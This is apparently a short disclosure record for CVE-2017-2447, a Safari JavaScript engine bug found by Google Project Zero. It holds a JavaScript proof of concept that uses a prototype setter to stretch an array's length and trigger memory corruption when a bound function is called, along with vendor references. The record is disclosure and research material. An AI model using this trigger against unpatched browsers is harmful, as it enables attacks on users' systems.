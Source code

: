 # CVE-2017-2447

- Report: Jan 2017
- Fix: Mar 2017
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var ba;
function s(){
    ba = this;
}

function dummy(){
    alert("just a function");
}

Object.defineProperty(Array.prototype, "0", {set : s });
var f = dummy.bind({}, 1, 2, 3, 4);
ba.length = 100000;
f(1, 2, 3);
```

## Reference

- [Apple](https://support.apple.com/en-us/HT207617)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1033)
